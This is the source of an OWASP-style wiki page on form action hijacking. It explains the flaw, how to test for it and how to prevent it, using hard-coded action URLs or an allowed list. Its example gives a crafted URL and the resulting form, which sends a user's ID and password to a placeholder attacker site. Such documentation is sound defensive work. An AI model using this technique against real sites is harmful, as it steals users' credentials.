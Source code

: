 ```yaml
---
layout: col-sidebar
title: Form action hijacking
author: Robert Gilbert (amroot)
contributors:
permalink: /attacks/Form_action_hijacking
tags: attack, Form action hijacking
auto-migrated: 1
---
```


{% include writers.html %}

## Overview

Form action hijacking allows an attacker to specify the action URL of a
form via a paramter. An attacker can construct a URL that will modify
the action URL of a form to point to the attacker's server. Form content
including CSRF tokens, user entered parameter values, and any other of
the forms content will be delivered to the attacker via the hijacked
action URL.

## How to Test for Form Action Hijacking Vulnerabilities

Check parameter values passed to the form action. See example below.

## How to Prevent Form Action Hijacking Vulnerabilities

Hard-code the form action URL or use an allowed list of permitted URLs.

## Examples

The following URL will generate the a form and set the "url" parameter
as the from action URL. When the form is submitted, the ID and password
will be sent to the attacker's site.

URL:

`https://vulnerablehost.com/?url=https://attackersite.com`

Source:

```html
<form name="form1" id="form1" method="post" action="https://attackersite.com">
  <input type="text" name="id" value="user name" />
  <input type="password" name="pass" value="password" />
  <input type="submit" name="submit" value="Submit" />
</form>
```

## References

- [Common Weakness Enumeration - CWE-20: Improper InputValidation](https://cwe.mitre.org/data/definitions/20.html)
- [PortSwigger: Form action hijacking(reflected)](https://portswigger.net/knowledgebase/issues/details/00501500_formactionhijackingreflected)
- [PortSwigger: Form action hijacking(stored)](https://portswigger.net/knowledgebase/issues/details/00501501_formactionhijackingstored)
